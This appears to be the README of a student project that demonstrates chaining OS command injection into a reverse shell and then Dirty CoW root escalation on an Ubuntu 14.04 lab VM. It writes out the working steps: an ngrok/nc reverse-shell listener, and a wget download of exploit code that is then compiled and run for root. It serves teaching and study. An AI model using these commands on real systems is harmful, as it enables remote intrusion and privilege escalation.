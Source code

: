 # COMP2040 - Operating System Group Project

+ **Group**: UCA 
+ **Members**:
  + Nguyen Tuan Anh
  + Nguyen Thai Uyen
  + Phan Thi Hien Chi 
+ **Topics**: GNU/Linux Kernel & Kernel vulnerabilities 

## Topic

Bug chain of OS Command Injection to Dirty CoW ([CVE-2016-5195](https://nvd.nist.gov/vuln/detail/cve-2016-5195)) on Linux 3.13.0-170-generic kernel (Ubuntu 14.04.02 Trusty Tahr)

## Setup 

1. Using Virtualbox/VMWare/any virtualization, with amd64/i386 image of [Ubuntu 14.04.02](http://old-releases.ubuntu.com/releases/14.04.0/)
2. (Optional but highly recommended) Install a higher version of Python3 (3.7+). Follow this [guide](https://github.com/actions/setup-python/issues/93).
3. Clone this repository

```bash
git clone https://github.com/h114mx001/COMP2040-LinuxKernelVulns
```
4. Run the web service
```bash
cd COMP2040-LinuxKernelVuln
python3 ./main.py
```
5. Assert the service is accessible from outside of the VM.

## Attack

1. Setup reverse shell listener on the host machine 
```bash
ngrok tcp 4444 
# in another terminal
nc -lvnp 4444
```
2. Run the exploit script, with updated IP address of the ngrok server
```bash
python3 ./exploit.py
``` 
3. Access the web service from the VM, and observe the reverse shell on the host machine by sending the payload generated by the exploit script.
4. Install the dirtycow exploit on the VM 
```bash 
wget https://raw.githubusercontent.com/h114mx001/COMP2040-LinuxKernelVulns/main/dirtycow_privesc.c
gcc -pthread dirtycow_privesc.c -o dirtycow -lcrypt
./dirtycow
```
5. Have fun with the root shell :) 
```bash 
su root
```

Recommended steps: You should split the terminal using `tmux`, when receives the reverse shell. Also reverse shell hardening techniques are recommended.